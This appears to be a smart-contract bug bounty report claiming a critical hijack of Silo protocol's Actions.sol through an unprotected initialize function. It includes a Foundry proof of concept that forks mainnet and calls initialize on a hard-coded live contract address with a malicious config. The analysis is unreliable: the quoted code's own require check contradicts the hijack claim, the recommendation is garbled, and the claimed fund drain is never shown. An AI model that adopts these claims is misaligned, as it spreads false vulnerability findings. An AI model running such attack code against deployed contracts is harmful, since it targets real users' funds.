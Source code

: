 **Contract hijack via unprotected initialize in Actions.sol**

_Bug Severity:_ Critical 

_Target:_ https://sonicscan.org/address/0x435Ab368F5fCCcc71554f4A8ac5F5b922bC4Dc06?utm_source=immunefi#code#F10#L43-53
Actions.sol uses as e.g middleware in silo protocol, meaning if a user calls deposit/withdraw from silo.sol, the silo.sol will make an external call to Actions.sol, this contract handles multiple tasks such as, calling accrueInterest, turn on/off reentrancy protection, calls hook receiver, gets shareToken and asset addresses, and also the contract interacts with vaults that change the storage, meaning if an attacker can get access or hijack the Actions.sol via calling initialize with malicious siloConfig, fake hook receiver and Change shareToken and asset addresses, all the protocol's transactions will be under the attacker's malicious actions, and could give the Attacker full control over the user's funds

```solidity
// Actions.sol
    /// @notice Initialize Silo
    /// @param _siloConfig Address of ISiloConfig with full configuration for this Silo
    /// @return hookReceiver Address of the hook receiver for the silo
@audit-bug--> // ⚠️ BUG: Missing initialize call 
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver) {
        IShareToken.ShareTokenStorage storage _sharedStorage = ShareTokenLib.getShareTokenStorage();

        require(address(_sharedStorage.siloConfig) == address(0), ISilo.SiloInitialized());

        ISiloConfig.ConfigData memory configData = _siloConfig.getConfig(address(this));

        _sharedStorage.siloConfig = _siloConfig;

        return configData.hookReceiver;
    }
```
- After deep reviews, i found out that the silo admins forgot to call initialize in Actions.sol contract, the contract is Unprotected everyone can call it and become the owner of it.





**Impact:**

- Attacker could hijack the Actions.sol contract via calling initialize function and change the siloConfig, hook receiver, shareToken and asset addresses all to the malicious ones.
- Users' funds will be under attacker's control
- And the attacker could drain the protocol's funds via contract without reentrancy protection
- Once the attacker became the owner of Actions.sol, the protocol admins can not return the contract back from attacer.





**Recommendation:**

Consider adding onlyOwner ko call the unitize function to prevent the attacker from hijacking it.





**Proof Of Concept (POC)**

The below PoC shows how an attacker called initialize function with malicious siloConfig, fake hook receiver, fake shareToken and malicious vaults, finally the attacker became the owner of the Actions.sol contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISiloConfig {
    struct ConfigData {
        address hookReceiver;
        address silo;
    }

    function getConfig(address silo) external view returns (ConfigData memory);
}

interface IActions {
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver);
}

contract MaliciousSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0xdeadbeef),  // just test value
            silo: address(0x12345678)          // just test value
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04;

    MaliciousSiloConfig maliciousConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        // deploy mock silo config
        maliciousConfig = new MaliciousSiloConfig();
    }

    function test_Initialize() public {
        // try to initialize with attacker-controlled config
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                maliciousConfig
            )
        );

        require(success, string(data));
    }
}
```

